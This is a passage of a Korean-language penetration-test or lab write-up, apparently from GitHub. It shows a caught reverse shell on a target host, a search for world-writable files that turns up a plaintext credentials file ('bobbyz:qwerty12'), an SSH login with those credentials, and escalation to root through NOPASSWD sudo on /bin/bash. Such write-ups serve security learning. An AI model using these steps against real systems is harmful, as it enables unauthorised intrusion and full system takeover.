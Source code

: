  - 호스트 리버스 쉘 연결 성공
    ```sh
    listening on [any] 443 ...
    connect to [10.8.0.140] from (UNKNOWN) [172.31.249.155] 34848
    whoami;hostname;id
    www-data
    ip-172-31-249-155
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

### 권한 상승
- 수동으로 호스트 점검 결과 루트 디렉토리에 퍼미션 777인 .bobbyz_creds.txt 파일 발견
    ```sh
    find / -type f -perm 777 2>/dev/null

    /.bobbyz_creds.txt
    ```

 - .bobbyz_creds.txt 파일 확인 결과 bobbyz 계정 아이디와 패스워드 확인
    ```sh
    cat ./.bobbyz_creds.txt

    Vault server breakglass creds - bobbyz:qwerty12
    ```
 - SSH를 사용하여 해당 ID로 호스트 로그인 시도
    ```sh
    ssh bobbyz@172.31.249.155

    bobbyz@ip-172-31-249-155:~$ whoami; hostname; id
    bobbyz
    ip-172-31-249-155
    uid=1001(bobbyz) gid=1001(bobbyz) groups=1001(bobbyz)
    ```

 - bobbyz 계정으로 로그인 한 뒤 `sudo -l` 명령어를 사용하여 확인결과 bobbyz 계정은 패스워드 사용없이 bash 쉘 사용 가능
    ```sh
    bobbyz@ip-172-31-249-155:~$ sudo -l
    Matching Defaults entries for bobbyz on ip-172-31-249-155:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User bobbyz may run the following commands on ip-172-31-249-155:
        (ALL) NOPASSWD: /bin/bash
    ```

 - `sudo /bin/bash`명령어를 사용하여 root권한으로 로그인 성공
    ```sh
    bobbyz@ip-172-31-249-155:/$ sudo /bin/bash
    root@ip-172-31-249-155:/# whoami; hostname; id

    root
    ip-172-31-249-155
    uid=0(root) gid=0(root) groups=0(root)
    ```
